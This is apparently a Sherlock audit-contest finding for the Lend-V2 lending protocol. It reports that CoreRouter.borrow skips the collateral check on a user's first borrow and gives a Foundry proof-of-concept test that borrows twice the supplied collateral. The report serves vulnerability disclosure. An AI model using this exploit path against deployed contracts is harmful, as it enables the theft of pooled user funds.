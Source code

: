 Nice Sable Cobra

High

# The Attacker can Drain the Liquidity

### Summary

While first time borrowing the `CoreRouter:borrow` function as vulnerability which will allow an attacker to drain all the available liquidity.


### Root Cause

```solidity
        (uint256 borrowed, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);

        LendStorage.BorrowMarketState memory currentBorrow = lendStorage.getBorrowBalance(msg.sender, _lToken);

@-----> uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
            : 0;

        require(collateral >= borrowAmount, "Insufficient collateral"); // @audit : here borrowAmount will be 0 for first borrow
```
In case of first borrow the `borrowAmount=0` , that why the next require will always pass and the attacker will be able to borrow all available liquidity.
[CoreRouter.sol#L157-L159](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L157-L159)


### Internal Pre-conditions

User has no active borrow 


### External Pre-conditions

First time borrowing


### Attack Path

Nil

### Impact

All the available Liquidity can be Drain.


### PoC

First apply this git diff to test file `TestBorrowing.t.sol`
```diff
diff --git a/Lend-V2/test/TestBorrowing.t.sol b/Lend-V2/test/TestBorrowing.t.sol
index 31e767b..235080a 100644
--- a/Lend-V2/test/TestBorrowing.t.sol
+++ b/Lend-V2/test/TestBorrowing.t.sol
@@ -83,6 +84,15 @@ contract TestBorrowing is Test {
         coreRouter.supply(amount, token);
     }
 
+    function _supply(uint256 amount , address user) internal returns (address token, address lToken) {
+        token = supportedTokens[0];
+        lToken = lendStorage.underlyingTolToken(token);
+
+        ERC20Mock(token).mint(user, amount);
+        IERC20(token).approve(address(coreRouter), amount);
+        coreRouter.supply(amount, token);
+    }
+
```
Add following test case to `TestBorrowing.t.sol` file and run with command `forge test --mt test_borrow_and_drain_liquidity -vvv`:
```solidity
    function test_borrow_and_drain_liquidity() public {
        // Bound amount between 1e18 and 1e30 to ensure reasonable test values
        uint256 amount = 100e18;
        amount = bound(amount, 1e18, 1e30);
        address liquidityProvider = makeAddr("liquidityProvider");

        vm.startPrank(liquidityProvider);
        _supply(amount*2,liquidityProvider);
        vm.stopPrank();
        vm.startPrank(deployer);

        // First supply tokens as collateral
        (address token, address lToken) = _supply(amount);

        // Calculate maximum allowed borrow (70% of collateral to leave some safety margin)
        uint256 maxBorrow = (amount * 100) / 100;

        // Get initial balances
        uint256 initialTokenBalance = IERC20(token).balanceOf(deployer);

        // Expect BorrowSuccess event
        vm.expectEmit(true, true, true, true);
        emit BorrowSuccess(deployer, lToken, maxBorrow*2);

        // Borrow tokens
        coreRouter.borrow(maxBorrow*2, token);

        // Verify balances after borrowing
        assertEq(
            IERC20(token).balanceOf(deployer) - initialTokenBalance,
            maxBorrow*2,
            "Should receive correct amount of borrowed tokens"
        );

        // Verify borrow balance is tracked correctly
        assertEq(
            lendStorage.borrowWithInterestSame(deployer, lToken),
            maxBorrow*2,
            "Borrow balance should be tracked correctly"
        );

        vm.stopPrank();
    }
```


### Mitigation

Make sure in case of first time borrowing don't allow borrower to borrow more than collateral.
